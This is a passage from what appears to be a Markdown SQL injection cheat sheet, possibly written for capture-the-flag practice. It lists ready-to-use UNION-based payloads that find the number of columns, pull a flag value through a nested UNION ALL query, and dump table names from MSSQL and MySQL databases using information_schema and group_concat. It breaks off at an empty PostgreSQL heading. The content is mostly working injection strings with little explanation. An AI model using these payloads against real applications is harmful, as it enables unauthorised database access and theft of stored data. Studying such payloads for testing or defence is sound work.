 The following commands detect the number of the columns in the database.

```html
' UNION SELECT NULL--
' UNION SELECT NULL-- -

' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL-- -

' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- -

' UNION SELECT 'a',NULL,NULL--
' UNION SELECT 'a',NULL,NULL-- -

' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,'a',NULL-- -

' UNION SELECT NULL,NULL,'a'--
' UNION SELECT NULL,NULL,'a'-- -
```

### UNION ALL

We can combine the result of the query into the one column by using “UNION ALL” syntax.

```txt
' UNION ALL SELECT "' UNION SELECT flag,NULL,NULL from flags-- -",NULL,NULL from users-- -
```

<br />

## List Table Names

Get the table name in which you want to get the information.

### MSSQL

```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### MySQL

```html
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
' UNION SELECT table_name,NULL FROM information_schema.tables#

<!-- group_concat(): Dump all tables simultaneously -->
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables-- -
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables#
```

### PostgreSQL
